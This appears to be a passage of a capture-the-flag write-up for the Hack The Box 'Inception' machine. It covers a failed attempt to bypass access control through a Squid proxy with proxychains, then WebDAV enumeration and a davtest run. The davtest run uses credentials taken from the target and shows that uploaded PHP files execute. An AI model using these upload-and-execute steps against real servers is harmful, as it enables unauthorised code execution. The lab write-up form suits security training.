 
# Failed forbidden bypass with squid-proxy
This didn't work as there wasn't any forbidden rules in configuration `/etc/apache2/sites-available/000-default.conf`.
```bash
        <Location /webdav_test_inception>
                Options FollowSymLinks
                DAV On
                AuthType Basic
                AuthName "webdav test credential"
                AuthUserFile /var/www/html/webdav_test_inception/webdav.passwd
                Require valid-user
        </Location>
```
Even though there weren't any allow or deny rules for IP's, I did try to bypass the forbidden page using the squid-proxy running on port 3128.
You can do this by:
- Edit –> Preferences –> Advanced –> Network –> Settings and then select “Manual proxy configuration” and enter proxy server IP address (10.10.10.67) and Port (3128) to be used for all protocol including SOCKSv5.
- You can try using foxy-proxy extension, here you can even specify a username and password for squid proxy. 
- Edit /etc/proxychains.conf and add `http 10.10.10.67 3128 webdav_tester babygurl69` then you can send requests as:
```bash
$ proxychains curl http://10.10.10.67/webdav_test_inception/
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-10.10.10.67:3128-<><>-10.10.10.67:80-<--denied
curl: (7) Couldn't connect to server
```
Which shows that even after proxy-ing traffic from squid, It wasn't able to access the server.
# WebDAV
If I check for OPTIONS allowed by `/webdav_test_inception/` it gives: `Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,LOCK` and for a random page like `zzz` it gives `OPTIONS,MKCOL,PUT,LOCK`.
That clearly shows we can write files onto the server.

I can try something like `davtest` to upload several files with different extensions and check if the extension is executed:
```bash
$ davtest -auth webdav_tester:babygurl69 -sendbd auto -url http://inception.htb/webdav_test_inception/
PUT File: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.txt
PUT File: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.php
PUT File: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.asp
PUT File: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.jsp
PUT File: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.pl
PUT File: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.aspx
PUT File: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.cfm
PUT File: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.html
PUT File: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.cgi
PUT File: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.shtml
PUT File: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.jhtml
Executes: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.txt
Executes: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.php
Executes: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/davtest_yY8ocCsJAt6.html
```